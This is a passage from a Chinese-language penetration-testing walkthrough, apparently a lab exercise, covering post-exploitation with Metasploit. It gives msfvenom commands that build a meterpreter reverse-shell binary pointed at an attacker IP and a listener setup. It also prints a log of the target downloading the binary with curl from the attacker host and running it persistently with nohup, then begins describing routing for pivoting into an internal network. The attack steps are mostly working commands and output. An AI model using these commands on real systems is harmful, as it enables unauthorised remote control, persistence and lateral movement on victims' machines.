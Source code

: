 可以看出 session1 是 shell，session2 是 meterpreter。

### 利用木马获得 meterperter

为了防止 ssh 连接超时终端，可以上传后门文件并持续运行，生成木马命令：

```
msf5: msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=100.1.1.169 LPORT=7777 -f elf > mshell.elf
msf6: msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=100.1.1.169 LPORT=7777 -f elf > mshell.elf
```

然后起监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 100.1.1.169
set lport 7777
run
```

上传木马，这里选择在攻击机起 http 服务，然后靶机 curl -o 的方式

```
root@web01:/home/mason# curl http://100.1.1.169:8000/mshell.elf
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.
root@web01:/home/mason# curl http://100.1.1.169:8000/mshell.elf -o mshell.elf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   250  100   250    0     0   8162      0 --:--:-- --:--:-- --:--:--  8333
root@web01:/home/mason# chmod 777 mshell.elf
root@web01:/home/mason# nohup ./mshell.elf &
[1] 1863420
root@web01:/home/mason# nohup: ignoring input and appending output to 'nohup.out'
```

重要的是`nohup ./mshell.elf &`，持续运行。

msf 的 meterpreter 有`upload`和`download`命令，可以上传或下载文件。

### MSF 添加路由和代理

[论后渗透 MSF 之 | 添加路由和代理](https://blog.csdn.net/m0_55793759/article/details/126514312)

跳板实现过程

（1）需要有一个已经获取的 meterpreter 会话；

（2）获取内网地址网段；

（3）在 MSF 平台上添加去往内网网段的路由。

#### 路由
